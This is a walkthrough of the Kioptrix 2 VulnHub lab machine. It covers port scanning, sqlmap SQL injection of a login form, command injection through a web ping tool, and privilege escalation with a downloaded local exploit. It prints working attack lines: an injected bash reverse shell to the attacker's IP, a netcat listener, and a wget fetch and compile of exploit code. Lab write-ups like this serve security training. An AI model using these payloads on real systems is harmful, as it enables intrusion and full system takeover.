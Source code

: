 ###target:				kioptrix2 by Kioptrix Team 

###hosted by:			vulnhub.com

###virtualization:		virtualbox

###testing platform:	kali linux 2017

###walkthrough by:		worzel_gummidge



**nmap** is used to aquire the IP of the target and to perform port and os fingerprinting scans.

```bash
nmap 192.168.56.103 -T5 -n -A -sC -p0-65535
```



7 open ports are discovered through the scan: tcp22(ssh), tcp80(http), tcp111(rpcbind), tcp143(https), tcp631(ipp), tcp650(rpc, )tcp3306(mysql)

**nikto** and **dirb** are used to probe all *http* ports further.

```bash
nikto -h 192.168.56.103
```

```bash
dirb http://192.168.56.103 /usr/share/dirb/wordlists/big.txt
```



on browsing the website hosted on the machine, the attacker is served with a login form.

using **burp** to intercept the request and capture it, attacker uses **sqlmap** to look for *sql injection* vulnerabilities. the *"username"* field is vulnerable and **sqlmap** is able to exploit it to get login credentials of the main page.

![screenshot of intercepted post request](assets/1.png "request-file")

```bash
sqlmap -r sqlkiop.txt --level 5 --risk 3 --dump-all
```



the attacker uses admin credentials to login. he/she is granted with access to a ping tool. by chaining the ping command with another linux command, the attacker is able to expose a command execution vulnerability in the web application.

![screenshot of ping tool hosted on victim's site](assets/2.png "command injection")

By setting up a listener through **netcat** and chaining a reverse bash command to the ping command, the attacker is able to spwan a reverse shell with low priviledges.

```bash
nc -lvp 443
```

```bash
192.168.56.103; bash -i >& /dev/tcp/192.168.56.101/443 0>&1
```



![screenshot of remote shell](assets/3.png "shell!")



**searchsploit** is used to search for suitable priviledge escalation exploits. once the attacker identifies an exploit, he/she uses **wget** to download the exploit from his/her local machine to the target server add it is compiled using **gcc** and run.

```bash
cd /tmp; wget 192.168.56.101/9545.c
gcc -Wall -o 9545 9545.c
```



the attacker has root.

![screenshot: attacker has shell](assets/4.png "root!")
